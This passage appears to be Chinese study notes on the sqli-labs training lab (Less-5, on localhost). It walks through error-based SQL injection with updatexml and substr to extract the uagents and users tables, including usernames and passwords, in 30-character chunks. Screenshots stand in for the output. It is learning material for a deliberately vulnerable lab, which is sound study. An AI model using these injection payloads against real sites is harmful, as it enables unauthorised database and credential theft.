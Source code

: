 ![image-20220703212735021](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703212735021.png)

6.23 uagents表

```
继续重复上面的步骤
代码修改为：
http://localhost:8080/Less-5/
?id=1' and
 updatexml(1,concat(0x7e,
 substr((select group_concat(id,uagent,ip_address,username) from uagents),1,30),0x7e),1) --+
 执行后也是无显示任何内容，表内无任何信息
```

![image-20220703213149709](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703213149709.png)

6.24 users表

```
按照上面的步骤查询最后一个表的内容
sql语句为：
http://localhost:8080/Less-5/
?id=1' and
 updatexml(1,concat(0x7e,
 substr((select group_concat(id,'-',username,'-',password) from users),1,30),0x7e),1) --+
 ps:(前面并没有注意到它把所有数据都合在一起了)
 这里因为需要把username跟password好区别开所以这里使用了分割符‘/’，所以要减少俩个字符.
 但这里为了方便计算还是用的是30字符，这样的话它会把后面的0x7e吞掉（意思就是不会显示出来）
```

> 1-30字符

![image-20220703221200515](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703221200515.png)

> 31-60字符

![image-20220703221226882](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703221226882.png)

> 61-90字符

![image-20220703221250979](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703221250979.png)

> 91-120字符

![image-20220703221322459](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703221322459.png)

> 121-150字符

![image-20220703221406856](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703221406856.png)

> 151-180字符

![image-20220703221436203](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703221436203.png)

> 181-210字符
